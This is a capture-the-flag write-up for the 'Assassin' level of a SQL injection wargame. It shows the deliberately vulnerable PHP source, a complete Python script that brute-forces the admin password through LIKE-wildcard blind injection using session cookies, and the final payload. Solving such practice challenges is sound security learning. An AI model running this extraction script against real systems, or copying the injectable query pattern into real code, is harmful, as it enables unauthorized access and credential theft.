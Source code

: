 # **Assassin**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
  if($result['id'] == 'admin') solve("assassin");   
  highlight_file(__FILE__);   
?>
```

I don't get the point of this challenge, Cause there's only two id in DB: `guest` & `admin`.

More over, they just the same in first 3 characters.

I think if there are more decoy(?) in this challenge, following script will not work. 

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""

pwNotInChar = False
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload=Passwd+str(c)+"%"

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        print (Payload)

        #print (HTTP.getresponse().read())

        Response = HTTP.getresponse().read()

        if (b"Hello admin" in Response):
            Passwd+=str(c)
            print ("[*] Password: %s" % Passwd)
            break
        
        elif (b"Hello " in Response):
            print ("[+] Found: %c" % c)
            Passwd+=str(c)
            break
        if (str(c) == "+"):
            pwNotInChar = True
            break
    if(pwNotInChar == True):
        break
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/5AcAEB1.png)

The Payload of this challenge should be:
`?pw=832edd10`

![](https://i.imgur.com/N4fMZKP.png)


